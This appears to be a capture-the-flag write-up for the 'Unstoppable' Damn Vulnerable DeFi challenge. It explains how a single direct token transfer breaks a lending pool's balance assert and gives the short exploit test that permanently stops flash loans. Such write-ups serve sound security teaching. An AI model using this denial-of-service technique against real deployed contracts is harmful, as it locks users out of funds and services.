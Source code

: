 ```yaml
---
description: 'Challenge #1'
---
```


# Unstoppable

## Mission

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to <mark style="color:yellow;">attack and stop the pool from offering flash loans</mark> ...

"You start with 100 DVT tokens in balance."

* The goal is to stop the pool from offering <mark style="color:yellow;">flash loans</mark>
* Essentially a Denial of Service (DoS) attack

## Exploit

* We know that we need to cause a form of DoS
* We need to discover where the flash loan function occurs

### Flash Loan Function

```
// ...
require(borrowAmount > 0, "Must borrow at least one token");
require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
assert(poolBalance == balanceBefore);
require(
  balanceAfter >= balanceBefore,
  "Flash loan hasn't been paid back"
);
```

* Now we have identified where the flash loan function takes place
* The borrow amount must be greater than zero
* <mark style="color:yellow;">If the balance and the pool balance are not equivalent, the contract will always fail on the flash loan function above</mark>

### Exploit Code

Add the following to the //enter exploit code here function in the challenge.js file:

```
it('Exploit', async function () {
        // transfer tokens to it to break it!
    await this.token.transfer(this.pool.address, 1)
    });
```

* Go to terminal and execute <mark style="color:yellow;">`yarn run unstoppable`</mark> inside the /damn-vulnerable-defi folder and you will get a checkmark next to the unstoppable challenge

### Proof

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
